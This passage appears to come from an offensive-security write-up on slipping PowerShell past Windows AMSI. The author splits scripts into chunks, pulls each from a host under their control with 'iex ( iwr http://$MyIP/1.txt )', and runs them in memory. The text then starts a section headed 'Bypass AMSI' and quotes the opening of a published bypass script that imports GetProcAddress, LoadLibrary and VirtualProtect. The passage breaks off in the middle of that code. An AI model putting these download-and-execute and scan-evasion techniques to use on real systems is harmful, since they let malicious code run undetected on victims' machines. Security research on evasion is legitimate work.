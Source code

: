 Let's apply the same previous steps on it.. we will divide it into 3 files ..

```powershell
# 1.txt
$Source = @"
public class BasicTest
{
  public static int Add(int a, int b)
    {
        return (a + b);
    }
  public int Multiply(int a, int b)
    {
    return (a * b);
    }
}
"@
```

```powershell
# 2.txt
Add-Type -TypeDefinition $Source
[BasicTest]::Add(4, 3)
$BasicTestObject = New-Object BasicTest
$BasicTestObject.Multiply(5, 2)
```

```powershell
# main.ps1
echo "This Line Is Mine"
iex ( iwr http://$MyIP/1.txt -UseBasicParsing );
iex ( iwr http://$MyIP/2.txt -UseBasicParsing );
```

And it worked again, without problems:
```powershell
PS C:\Users\x4sh3s\OneDrive\Desktop> .\main.ps1
This Line Is Mine
7
10
```

## Bypass AMSI

Now, after we confirmed that this method work on the previous scripts, let's apply it on scripts that are detected, and see if we can execute them without making AMSI angry!

I'll take The following script by Rastamouse as an example:

```powershell
# amsi_bypass.ps1
$Win32 = @"

using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

```